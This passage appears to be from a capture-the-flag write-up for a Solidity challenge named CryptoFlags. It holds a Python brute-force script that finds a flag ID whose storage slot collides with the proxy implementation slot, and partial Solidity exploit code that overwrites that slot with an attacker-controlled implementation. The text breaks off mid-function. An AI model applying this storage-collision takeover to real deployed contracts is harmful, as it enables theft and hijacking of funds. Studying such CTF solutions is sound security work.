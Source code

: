 ```python
]

min_delta = None

for i in range(100_000_000):
    if i % 1_000_000 == 0:
        print(f"checkpoint: {i}")
        print(min_delta)
    value = i.to_bytes(32) + (6).to_bytes(32)
    hash_value = int.from_bytes(get_hash(get_hash(value)), "big")
    for candidate in CANDIDATES:
        delta = candidate - hash_value
        if delta >= 0 and (min_delta is None or delta < min_delta):
            min_delta = delta
        if delta >= 0 and delta <= 10000:
            print(i, hex(hash_value), hex(candidate))

print(min_delta)
```

For ID 56.488.061 there is a collision for the implementation slot. The collision is 141 slots (1 slot == 32 bytes)
earlier than the slot.

We can overwrite the 141 slots with random data and fill the desired slot with the address of the new implementation.

Exploit code:
```
// SPDX-License-Identifier: Unlicensed
pragma solidity ^0.8.20;

import { ERC721 } from "./ERC721_flattened.sol";
import { CryptoFlags } from "./CryptoFlags.sol";

contract ExploitImpl is ERC721 {
  mapping(uint256 => string) public FlagNames;

  constructor()
      ERC721("CryptoFlags", "CTF")
  {}

  function isSolved() external pure returns (bool) {
      return true;
  }
}

contract Exploit {
  CryptoFlags flags;

  constructor(address flagsAddress) {
    flags = CryptoFlags(flagsAddress);
  }

  function exploit(address exploitImplAddress) external {
    uint256 flagId = 56488061;
    string memory slot = "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA";
    string memory newImplementation = string(abi.encode(exploitImplAddress));
    string memory payload;

    for (uint256 i = 0; i < 141; i += 1) {
      payload = string.concat(payload, slot);
    }
    payload = string.concat(payload, newImplementation);
```